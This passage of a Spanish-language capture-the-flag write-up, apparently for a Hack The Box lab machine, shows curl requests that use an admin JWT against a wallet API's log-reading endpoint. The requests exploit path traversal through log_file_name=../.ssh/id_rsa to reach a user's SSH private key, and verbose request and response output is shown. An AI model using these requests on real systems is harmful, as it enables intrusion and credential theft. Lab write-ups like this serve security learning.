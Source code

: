 ```bash
{"Description":"Missing log file name","Status":400}
* shutting down connection #0
```

Por lo que nos dice en la respuesta, podemos pensar en que el parámetro puede ser `log_file_name` y pues:

```bash
❯ curl -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" -v "http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=1.log"
* Host mywalletv1.instant.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.37
*   Trying 10.10.11.37:80...
* Connected to mywalletv1.instant.htb (10.10.11.37) port 80
* using HTTP/1.x
> GET /api/v1/admin/read/log?log_file_name=1.log HTTP/1.1
> Host: mywalletv1.instant.htb
> User-Agent: curl/8.11.1
> Accept: */*
> Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
> 
* Request completely sent off
< HTTP/1.1 201 CREATED
< Date: Fri, 28 Feb 2025 14:41:24 GMT
< Server: Werkzeug/3.0.3 Python/3.12.3
< Content-Type: application/json
< Content-Length: 79
< 
{"/home/shirohige/logs/1.log":["This is a sample log testing\n"],"Status":201}
```

Esto es vulnerable a Path Traversal:

```bash
❯ curl -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" -v "http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=../.ssh/id_rsa" 
* Host mywalletv1.instant.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.37
*   Trying 10.10.11.37:80...
* Connected to mywalletv1.instant.htb (10.10.11.37) port 80
* using HTTP/1.x
> GET /api/v1/admin/read/log?log_file_name=../.ssh/id_rsa HTTP/1.1
> Host: mywalletv1.instant.htb
> User-Agent: curl/8.11.1
> Accept: */*
> Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
> 
* Request completely sent off
< HTTP/1.1 201 CREATED
< Date: Fri, 28 Feb 2025 14:43:10 GMT
< Server: Werkzeug/3.0.3 Python/3.12.3
< Content-Type: application/json
< Content-Length: 2809
< 
```